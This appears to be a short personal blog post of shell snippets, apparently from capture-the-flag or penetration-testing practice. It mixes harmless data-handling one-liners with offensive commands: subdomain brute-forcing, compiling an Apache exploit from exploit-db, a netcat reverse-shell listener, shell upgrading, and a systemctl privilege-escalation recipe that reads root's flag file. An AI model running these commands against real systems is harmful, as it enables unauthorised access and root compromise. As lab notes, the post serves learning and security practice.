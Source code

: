 ```yaml
---
title: "Random Snippets"
date: 2020-06-17T10:00:00
categories:
  - blog
tags:
  - random
  - rough cuts
---
```


Command line zlib decompression + header
```bash
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" | cat - yourfile.text | gzip -dc > temp
```

```bash
# grab the first 18 chars from a string
echo 'your giant string here' | head -c 18 | wc -c
# or
echo 'your giant string here' | dd bs=1 count=18 | wc -c
```

```bash
crunch 20 20 0123456789abcdefghijklmnopqrstuvwxyz -t 0x@@.a.hackycorp.com > ~/aquatone/recon10.list
#aquatone run (chromium installed)
cat ~/aquatone/recon10.list | ./aquatone -ports 80 -out ~/aquatone/recon10  -scan-timeout 5000
```

```bash
# hex string to file
echo "\x9C\x03\x00\x00\x00\x00\x01" | xxd -r -p - > out
```

Ruby snippets
https://www.elttam.com//blog/ruby-deserialization/#content

```bash
searchsploit apache 2.4.29
cp /usr/share/exploitdb/exploits/php/remote/29290.c .
sudo apt install libssl-dev
gcc -o 29290 29290.c -lssl -lcrypto
```

```bash
nmap -sC -sV -T4 -A

nc -lvnp 4444
python -c 'import pty; pty.spawn("/bin/bash")'

#systemctl setuid priv esc
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```